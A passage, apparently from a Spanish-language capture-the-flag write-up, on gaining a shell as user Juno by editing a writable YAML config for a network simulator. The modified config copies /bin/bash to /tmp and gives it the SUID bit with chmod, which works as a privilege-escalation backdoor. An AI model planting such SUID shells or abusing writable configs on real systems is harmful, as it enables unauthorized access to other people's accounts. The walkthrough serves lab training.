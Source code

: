 
Si analizamos un poco, vemos que se esta implementando un servidor y un cliente, de lado del servidor se esta ejecutando un comando de python el cual iniciar un servidor http:

```yaml
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
```

Y del lado del cliente se esta haciendo una peticion a ese servidor creado:

```yaml
processes:
    - path: /usr/bin/curl
      args: -s server
```

Como tenemos permisos de escritura en el archivo, entonces podemos decirle que ejecute cualquier otro comando, lo mas sencillo es darle permisos SUID a bash para que nosotros tengamos una shell como Juno, editaremos el archivo yaml de esta manera:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```
Y depues de unos segundos en el directorio ```/tmp``` tendremos el binario bash con permisos SUID, solo ejecutamos y ya somos Juno, ah este punto ya tenemos la flag de user
